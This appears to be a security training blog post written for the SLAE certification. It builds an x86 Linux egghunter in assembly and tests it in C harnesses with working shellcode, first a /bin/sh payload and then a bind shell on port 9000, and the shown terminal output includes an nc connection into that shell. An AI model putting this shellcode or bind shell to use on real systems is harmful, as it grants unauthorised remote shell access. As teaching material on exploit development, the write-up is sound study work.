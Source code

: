 ```yaml
---
title: Egghunter 
author: fwinsnes
date: 2021-01-16 13:44:00 +0800
categories: [SLAE]
tags: [assembly, shellcoding]
---
```


#### Introduction

These series of posts starting with the prefix "Assignment" will be created in order to fulfill the requirements of the SLAE certification. Today we are going to have a close 
look at Egghunters. 

An Egghunter is a form of malware, commonly used during Exploit-Development sessions in order to process bigger shellcode when there is low space available. The process is quite 
simple, this will search for a specific tag within the memory. When found, the flow will be passed upon the instructions following the tag, executing the original shellcode. 

The third assignment from the seven requires the creation of an Egghunter through the Assembly language, and converting such into [shellcode](https://es.wikipedia.org/wiki/Shellcode). Moreover, it is required to test such.

##### Methods

In order to create an Egghunter shellcode, there are several paths. However, as the time goes on, newer techniques are implemented that make shellcoding easier. I have chosen to 
cover a modern method which is fast, and tends to be very small regarding size. This method obeys the following procedure:

+ The tag is saved on ESI
+ EBX is incremented
+ The value of EBX is compared with ESI. If positive, this should set the Zero Flag (ZF)
+ Repeat this process through a jump if not zero (JNZ) condition.
+ Jump into EBX.

It is quite important to note that the tag does not contain an opocode that could interfere with our egghunter, such as an INC ESI (46), or DEC EBX (4B). The chosen tag is 
45474547 (GEGE).

Code:

```term
global _start

_start:

      mov esi, 0x45474547       ; Moves the tag GEGE into ESI

main:

      inc ebx                   ; Increments EBX for comparison.
      cmp dword [ebx], esi      ; Compares EBX with ESI, that contains the tag. If they contain the same value, set the Zero flag (ZF).
      jne main                  ; Jumps to main to repeat the loop until the Zero flag (ZF) is set.
      push ebx                  ; Pushes the value of EBX into the stack.
      ret                       ; Pops it into the EIP.
```

Let's test this egghunter within the C format:

```term
#include<stdio.h>
#include<string.h>

unsigned char egg[] = \
"\xbe\x47\x45\x47\x45\x43\x39\x33\x75\xfb\x53\xc3";

unsigned char code[] = \
"\x47\x45\x47\x45"
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\xb0\x0b\xcd\x80";

main()
{

  printf("Shellcode size:  %d\n", strlen(code));
  printf("Egg size:  %d\n", strlen(egg));

        int (*ret)() = (int(*)())egg;

        ret();

}
```

#### EndGame

```term
whitecr0wz@SLAE:~/assembly/assignments/Assignment_3$ gcc egghunter.c -o egghunter -fno-stack-protector -z execstack -w 
whitecr0wz@SLAE:~/assembly/assignments/Assignment_3$ ./egghunter 
Shellcode size:  26
Egg size:  12
$
```

Furthermore, there is an additional detail that the egghunter should be configurable for different payloads. As the only requirement is to leave the tag at the start of the 
payload, configuration for different shellcodes should be easy.

Let's test this egghunter within the C format once again. I will now use the bind shell developed during [this](https://whitecr0wz.github.io/posts/SLAE-Bind/) post.

```term
#include<stdio.h>
#include<string.h>

unsigned char egg[] = \
"\xbe\x47\x45\x47\x45\x43\x39\x33\x75\xfb\x53\xc3";

unsigned char code[] = \
"\x47\x45\x47\x45"
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x31\xf6\x66\x68\x67\x01\x66\x58\xb3\x02\xb1\x01\x52\xcd\x80\x89\xc6\x66\x68\x69\x01\x66\x58\x89\xf3\x52\x52\x66\x68\x23\x28\x66\x6a\x02\x89\xe1
\xb2\x10\xcd\x80\x66\x68\x6b\x01\x66\x58\x89\xf3\x31\xc9\x51\xcd\x80\x66\x68\x6c\x01\x66\x58\x89\xf3\x31\xc9\x31\xd2\x31\xf6\xcd\x80\x89\xc6\xb1\x03\x66\x6a\x3f\x66\x58\x89\xf3\
xfe\xc9\xcd\x80\x75\xf3\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\x66\x6a\x0b\x66\x58\xcd\x80";

main()
{

  printf("Shellcode size:  %d\n", strlen(code));
  printf("Egg size:  %d\n", strlen(egg));

        int (*ret)() = (int(*)())egg;

        ret();

}
```

#### EndGame #2

```term
whitecr0wz@SLAE:~/assembly/assignments/Assignment_3$ gcc egghunter.c -o egghunter -fno-stack-protector -z execstack -w 
whitecr0wz@SLAE:~/assembly/assignments/Assignment_3$ ./egghunter 
Shellcode size:  131
Egg size:  12

─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
root@whitecr0wz:~# rlwrap nc 192.168.100.200 9000 -v 
192.168.100.200: inverse host lookup failed: Unknown host
(UNKNOWN) [192.168.100.200] 9000 (?) open
python3 -c 'import pty;pty.spawn("/bin/bash")'
whitecr0wz@SLAE:/home/whitecr0wz/assembly/assignments/Assignment_3$ id && whoami 
<wz/assembly/assignments/Assignment_3$ id && whoami                 
uid=1001(whitecr0wz) gid=1001(whitecr0wz) groups=1001(whitecr0wz)
whitecr0wz
whitecr0wz@SLAE:/home/whitecr0wz/assembly/assignments/Assignment_3$
```

### Code

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-
courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE-27812/PA-27812

You can find all of the used resources within this post [here](https://github.com/whitecr0wz/SLAE/tree/main/Assignment_3).
